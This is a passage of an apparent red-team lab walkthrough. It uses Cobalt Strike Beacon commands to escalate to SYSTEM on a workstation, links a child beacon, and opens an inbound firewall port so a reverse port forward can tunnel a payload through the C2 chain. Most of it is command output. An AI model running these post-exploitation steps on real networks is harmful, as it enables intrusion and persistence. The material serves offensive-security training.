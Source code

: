 ```powershell
Windows IP Configuration | 
 | 
 | 
Ethernet adapter Ethernet: | 
 | 
   Connection-specific DNS Suffix  . : ec2.internal | 
   IPv4 Address. . . . . . . . . . . : 10.10.122.25 | 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0 | 
   Default Gateway . . . . . . . . . : 10.10.122.1 | 
 |

```
## Reverse Port Forward Setup
With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.

run `hostname`
```powershell
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2
```
connect `localhost` to become `SYSTEM` on `WKSTN-2` to change `Firewall rules` & `rportfwd`
```powershell
beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.123.102
```
`getuid` to show where location is
```powershell
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
```
setting up `firewall` rule to allow port `8080` traffic in to allow `rportfwd` to work
```powershell
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
[*] Tasked beacon to run: New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
[+] host called home, sent: 343 bytes
[+] received output:
#< CLIXML


Name                          : {0021cd7e-392d-4c0a-8f26-6ab13a3c0e0c}
DisplayName                   : 8080-In
Description                   : 
DisplayGroup                  : 
Group                         : 
Enabled                       : True
Profile                       : Any
Platform                      : {}
Direction                     : Inbound
Action                        : Allow
EdgeTraversalPolicy           : Block
LooseSourceMapping            : False
LocalOnlyMapping              : False
Owner                         : 
```